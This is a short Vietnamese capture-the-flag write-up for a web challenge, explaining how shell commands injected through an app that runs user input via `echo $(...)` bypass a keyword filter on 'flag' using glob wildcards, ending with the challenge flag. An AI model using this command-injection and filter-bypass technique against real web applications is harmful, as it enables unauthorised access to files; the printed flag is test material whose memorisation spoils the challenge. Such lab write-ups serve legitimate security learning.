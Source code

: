 # Write Up

Đây là 1 bài web khá đơn giản cho anh em.

Ban đầu chúng ta có thể thử 1 số lệnh như là

```bash
ls -l
```

Chúng ta sẽ nhận được cái file/folder.

```txt
total 24 
-rwxr-xr-x 1 root root 884 Apr 21 2023 app.py 
drwxr-xr-x 3 root root 4096 Apr 21 2023 dream 
-rw-r--r-- 1 root root 34 Apr 21 2023 hint.txt 
-rw-r--r-- 1 root root 5 Apr 21 2023 requirements.txt 
drwxr-xr-x 5 root root 4096 Apr 21 2023 static 
drwxr-xr-x 2 root root 4096 Apr 21 2023 templates
```

Tiếp đến chúng ta có thể đọc thử file `hint.txt`

```bash
cat hint.txt
```

Ta sẽ nhận được:

```txt
Where is Flag? ./dream/hack/hello
```

Theo gợi ý trên chúng ta sẽ thử liệt kê các file/folder có trong `./dream/hack/hello`

```bash
ls -l ./dream/hack/hello
```

Và chúng ta nhận được 1 file là `flag.txt`

```txt
total 4 -rw-r--r-- 1 root root 68 Apr 21 2023 flag.txt
```

OK bây giờ mọi việc trở nên đơn giản là đọc file `flag.txt`, nhưng trong `app.py` lại có đoạn kiểm tra như sau:

```python
cmd = f'echo $({user_input})'
if 'flag' in cmd:
    return render_template('index.html', result='No!')
```

Vậy chúng ta không thể nhập thẳng chữ `flag` vào được do nó sẽ trả về `No!` ngay.
Chúng ta sẽ đi 1 đường vòng là sử dụng ký tự tương đương như `*` hay `?`

```bash
cat ./dream/hack/hello/fla*.txt 
# Hoặc
cat ./dream/hack/hello/fla?.txt
```

Flag: DH{671ce26c70829e716fae26c7c71a33823feb479f2562891f64605bf68f60ae54}